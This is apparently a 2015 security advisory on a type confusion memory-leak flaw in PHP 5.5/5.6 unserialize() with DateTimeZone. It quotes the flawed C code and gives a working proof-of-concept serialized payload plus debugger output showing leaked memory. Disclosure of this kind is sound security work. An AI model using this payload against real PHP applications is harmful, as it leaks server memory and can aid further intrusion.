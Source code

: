 #Type Confusion Infoleak Vulnerability in unserialize() with DateTimeZone
> Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20

A type confusion vulnerability was discovered in unserialize() with DateTimeZone object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6.x  
Affected is PHP 5.5.x

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
...
static int timezone_initialize(php_timezone_obj *tzobj, /*const*/ char *tz) /* {{{ */
{
	timelib_time *dummy_t = ecalloc(1, sizeof(timelib_time));
	int           dst, not_found;
	char         *orig_tz = tz;

	dummy_t->z = timelib_parse_zone(&tz, &dst, dummy_t, &not_found, DATE_TIMEZONEDB, php_date_parse_tzfile_wrapper);
	if (not_found) {
		php_error_docref(NULL, E_WARNING, "Unknown or bad timezone (%s)", orig_tz);
```
 
The Z_STRVAL_PP macro lead to looking up an arbitrary valid memory address, and outputing a string via an warning level error message that start from this memory address.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$data = unserialize('O:12:"DateTimeZone":2:{s:13:"timezone_type";i:1;s:8:"timezone";i:4298494896;}');

?>
```

Test the PoC on the command line, then show warning level error message:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test/test.php
Process 889 launched: '/usr/bin/php' (x86_64)

Warning: DateTimeZone::__wakeup(): Unknown or bad timezone (UH??AWAVAUATSH??8) in /test/test.php on line 3
Process 889 exited with status = 0 (0x00000000)
```
